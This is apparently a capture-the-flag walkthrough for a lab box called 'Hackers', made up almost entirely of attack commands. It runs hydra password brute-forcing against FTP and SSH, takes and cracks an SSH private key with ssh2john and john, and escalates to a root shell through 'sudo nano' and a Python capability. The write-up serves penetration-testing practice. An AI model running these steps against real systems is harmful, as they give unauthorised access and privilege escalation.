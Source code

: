 # Hackers 
## Step 1
`ftp $IP` anonymous login *optional*
### Gcrawford Path
		1. `hydra ftp://$IP -l gcrawford -P /usr/share/wordlists/rockyou.txt -t 64`
		2. `ftp $IP` login with `gcrawford` and get `id_rsa` and `business.txt`
		3. `ssh2john.py id_rsa > ssh_hash.txt`
		4. `john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt`
			5. `ssh2john.py id_rsa > ssh_hash.txt && john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt`
		6. `ssh -i id_rsa -l gcrawford $IP `
		7. `sudo nano`
		8. CTRL+R, CTRL+X
		9. `reset; sh 1>&0 2>&0`
### Rcampbell Path
	1. `hydra ssh://$IP -l rcampbell -P /usr/share/wordlists/rockyou.txt -t 64` or `msfconsole` `use auxiliary/scanner/ssh/ssh_login`
	2. `getcap -r / 2>/dev/null` *optional*
	3. `python -c 'import os; os.system("/bin/sh")'`
